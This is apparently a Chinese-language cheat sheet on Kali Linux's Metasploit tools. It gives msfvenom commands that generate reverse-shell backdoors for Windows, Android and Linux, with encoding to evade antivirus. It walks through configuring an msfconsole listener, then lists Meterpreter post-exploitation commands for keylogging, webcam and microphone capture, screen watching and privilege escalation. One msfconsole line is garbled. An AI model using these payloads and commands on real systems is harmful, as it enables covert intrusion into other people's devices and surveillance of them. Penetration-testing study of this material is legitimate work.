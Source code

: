 # Kali_Linux

## 简介

Kali Linux 是一个转为网络安全测试和渗透测试设计的 Linux 操作系统，由 Offensive Security 团队维护。它集成了大量安全工具，





## msfvenom

**msfvenom** 用于生成 Payload（漏洞利用代码或后门程序），可以将这些载荷植入目标系统，用于建立远程控制、反弹 Shell 或执行待定操作。

#### 核心用途：

- 生成针对不同平台（Windows、Linux、Android、Mac）的 Payload
- 支持多种输出格式（可执行文件exe、脚本、Shellcode）等
- 编码 Payload 可以绕过杀毒软件（AV）检测

#### 常用命令

```bash
# 生成 Windows 反向 TCP Shell（目标链接回攻击者）
msfvenom -p windows/meterpreter/reverse_tcp LHOST=攻击者ip LPORT=端口 -f exe > 文件名称.exe

# 生成 Android APK 后门
msfvenom -p android/meterpreter/reverse_tcp LHOST=攻击者ip LPORT=端口 -o 文件名.apk

# 生成 Linux Shellcode（编码绕过检测）
msfvenom -p linux/x86/shell_reverse_tcp LHOST=ip LPORT=端口 -e x86/shikate_ga_nai -f c
```

## msfconsole

**msfconsole** 是 Metasploit 的交互式命令界面，用于管理渗透测试全流程，

#### 包括：

- 搜索和利用漏洞模块
- 配置攻击参数
- 启动监听器接受反弹链接
- 后渗透（Post-Exploitation）操作（提权、信息收集）

#### 核心用途：

- 执行漏洞利用（Exploit）
- 管理 Meterpreter 会话（与植入的Payload交互）
- 自动化渗透测试流程

#### 操作实例

```bash
# 启动
msfconsole

# 搜索漏洞模块
search eternalblue

# 使用漏洞模块
use windows/meterpreter/reverse_tcp

# 或者选择模块
use exploit/multi/handler
# 选择攻击模块
set payload windows/meterpreter/reverse_tcp

# 配置参数
set RHOST 目标ip
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 攻击者ip
set LPORT 端口

# 执行攻击
exploit

# 成功后会进入 Meterpreter 会话
ls
```

#### Meterpreter 会话命令

##### CMD指令

| 命令           | 描述                      |
| -------------- | ------------------------- |
| cat            | 读取文件内容到屏幕        |
| cd             | 切换目录                  |
| checksum       | 检索文件的校验和          |
| cp             | 复制目标文件              |
| del            | 删除文件                  |
| dir 或 ls      | 列出文件                  |
| getlwd 或 lpwd | 打印本地工作目录          |
| getwd 或 pwd   | 打印工作目录              |
| lcd            | 更改本地目录              |
| lls            | 列出本地文件              |
| mkdir          | 创建目录                  |
| mv             | 移动目标文件              |
| rm             | 删除文件                  |
| rmdir          | 删除目录                  |
| search         | 搜索文件                  |
| show_mount     | 列出所有挂载点/逻辑驱动器 |
| upload         | 上传文件或目录            |
| pkill          | 终止进程                  |

##### Meterpreter命令

| 命令            | 描述                                                 |
| --------------- | ---------------------------------------------------- |
| keyscan_start   | 开始捕获击键（开始键盘记录）                         |
| keyscan_dump    | 转储按键缓冲（下载键盘记录）                         |
| keyscan_stop    | 停止捕获击键（停止键盘记录）                         |
| record_mic      | X秒从默认的麦克风record_mic音频记录（音频录制）      |
| webcam_chat     | 开始视频聊天（视频，对方会有弹窗）                   |
| webcam_list     | 单摄像头（查看摄像头列表）                           |
| webcam_snap     | 采取快照从指定的摄像头（摄像头拍摄一张照片）         |
| webcam_stream   | 播放视频流从指定的摄像头（开启摄像头监控）           |
| enumdesktops    | 列出所有可访问的桌面和窗口站（窗体列表）             |
| getdesktop      | 得到当前的Meterpreter桌面                            |
| reboot          | 重启计算机                                           |
| shutdown        | 关闭远程计算机                                       |
| shell           | 进入系统命令                                         |
| enumdesktops    | 列出所有可访问的桌面和窗口站                         |
| getdesktop      | 获取当前的meterpreter桌面                            |
| idletime        | 返回远程用户空闲的秒数                               |
| keyboard_send   | 发送击键                                             |
| keyevent        | 发送按键事件                                         |
| keyscan_dump    | 转储击键缓冲区                                       |
| keyscan_start   | 开始捕获击键                                         |
| keyscan_stop    | 停止捕获击键                                         |
| mouse [x] [y]   | 发送鼠标事件                                         |
| screenshare     | 实时观看远程用户桌面                                 |
| screenshot      | 抓取交互式桌面的屏幕截图                             |
| setdesktop      | 更改 Meterpreters 当前桌面                           |
| uictl           | 控制一些用户界面组件                                 |
| record_mic      | 从默认麦克风录制音频 X 秒                            |
| webcam_chat     | 开始视频聊天                                         |
| webcam_list     | 列出网络摄像头                                       |
| webcam_snap     | 从指定的网络摄像头拍摄快照                           |
| webcam_stream   | 播放来自指定网络摄像头的视频流                       |
| play            | 在目标系统上播放波形音频文件 (.wav)                  |
| getsystem       | 尝试将您的权限提升到本地系统的权限                   |
| execute -f 名称 | 强制打开程序，例如：execute -f powershell 或 notepad |
